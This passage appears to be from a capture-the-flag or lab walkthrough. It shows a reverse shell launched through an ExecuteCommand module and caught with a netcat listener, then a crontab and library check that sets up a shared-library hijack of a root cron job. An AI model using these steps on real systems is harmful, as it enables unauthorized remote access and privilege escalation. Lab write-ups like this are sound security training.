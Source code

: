 The ExecuteCommand module already includes a reverse shell command, so we’ll use that to launch our shell.
```
system.rev 127.0.0.1 6379
```
Finally, we’ll catch our reverse shell as pablo.
```
kali@kali:~$ nc -lvp 6379
listening on [any] 6379 ...
192.168.120.217: inverse host lookup failed: Unknown host
connect to [kali] from (UNKNOWN) [192.168.120.217] 48414
id
uid=1000(pablo) gid=1000(pablo) groups=1000(pablo)
```
# Escalation
Enumerate Cron Jobs

As we search for escalation options, we discover that /etc/crontab contains a root-run entry that runs every minute.

```
cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils
MAILTO=""

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
  *  *  *  *  * root       /usr/bin/log-sweeper
```
We also note that this crontab file includes a custom LD_LIBRARY_PATH variable which adds /usr/local/lib/utils and /usr/local/lib/dev to the list of locations to search for library files. If we check these paths, we find that we only have write access to /usr/local/lib/dev, which is perfect for our use since it appears first in the path.
```
ls -lah /usr/local/lib/dev
total 0
drwxrwxrwx  2 root root  6 Sep  7 01:50 .
drwxr-xr-x. 4 root root 30 Sep  7 01:50 ..
ls -lah /usr/local/lib/utils
total 4.0K
drwxr-xr-x. 2 root root  22 Sep  7 01:46 .
drwxr-xr-x. 4 root root  30 Sep  7 01:50 ..
-rwxr-xr-x. 1 root root 476 Sep  7 01:47 utils.so
```
The list of shared objects loaded by /usr/bin/log-sweeper includes the utils.so shared object which may be a good candidate for hijacking.
```
ldd /usr/bin/log-sweeper
        linux-vdso.so.1 =>  (0x00007ffd61a5c000)
        utils.so => not found
        libc.so.6 => /lib64/libc.so.6 (0x00007f717136a000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f7171738000)
```
